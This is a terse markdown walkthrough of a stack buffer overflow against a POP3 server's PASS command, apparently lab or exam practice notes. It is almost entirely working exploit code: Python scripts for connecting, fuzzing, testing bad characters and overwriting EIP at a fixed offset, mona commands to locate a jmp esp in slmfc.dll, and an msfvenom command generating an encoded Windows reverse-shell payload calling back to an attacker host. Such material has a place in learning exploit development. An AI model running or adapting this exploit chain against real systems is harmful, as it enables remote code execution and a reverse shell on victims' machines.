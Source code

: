# bofwalkthrough
CONNECT  
#!/usr/bin/python  

import socket  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
try:  
         print "\nSending evil buffer..."  
         s.connect(('IP',PORT))            # connect to IP, port  
         data = s.recv(1024)                     # receive banner  
         print data                              # print banner  
 
         s.send('USER test' +'\r\n')             # send username "test"  
         data = s.recv(1024)                     # receive reply  
         print data                              # print reply  
 
         s.send('PASS test\r\n')                 # send password "test"  
         data = s.recv(1024)                     # receive reply  
         print data                              # print reply  
 
         s.close()                               # close socket  
         print "\nDone!"  
except:  
    print "Could not connect to POP3!"  

FUZZ  


#!/usr/bin/python  
import socket  

#Create an array of buffers, from 1 to 5900 with increments of 200.  
buffer = ["A"]  
counter = 100  
while len(buffer) <= 30:  
    buffer.append("A"*counter)  
    counter=counter+200  

for string in buffer:  
    print "Fuzzing PASS with %s bytes" % len(string)  
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    connect=s.connect(('IP',PORT))  
    s.recv(1024)  
    s.send('USER test\r\n')  
    s.recv(1024)  
    s.send('PASS ' + string + '\r\n')  
    s.send('QUIT\r\n')  
    s.close()  

Find EIP  
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700   

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q    

Badchars  

#!/usr/bin/python  
import socket  

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  

badchars = (  
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"  
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"  
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"  
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"  
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"  
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"  
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"  
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"  
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"  
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"  
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"  
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"  
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"  
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"  
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"  
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )  

buffer ="A"*2606 + "B"*4 + badchars  

try:  
    print "\nSending evil buffer..."  
    s.connect(('IP',PORT))  
    data = s.recv(1024)  
    s.send('USER username' +'\r\n')  
    data = s.recv(1024)  
    s.send('PASS ' + buffer + '\r\n')  
    s.close()  
    print "\nDone!"  
except:  
    print "Could not connect to POP3!"  

!mona modules  

jmp esp  

push esp  
retn  

ruby /usr/share/metasploit-framework/tools/nasm_shell.rb  
add eax,12  
jmp eax  

!mona find -s "\xff\xe4" -m slmfc.dll (mona find jmp esp in .dll file)  


#!/usr/bin/python  

import socket  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  

buf = "A" * 2606 + "\x5f\x4a\x35\x8f" + "C" *(3500 - 2606 - 4)  

try:  
    print "\nSending evil buffer..."  
    s.connect(('IP',PORT))  
    data = s.recv(1024)  
    print data  

    s.send('USER test' +'\r\n')  
    data = s.recv(1024)  
    print data  

    s.send('PASS ' + buf + '\r\n')  
    data = s.recv(1024)  
    print data  

    s.close()  
    print "\nDone!"  

except:  
    print "Could not connect to X!"  

 msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"  

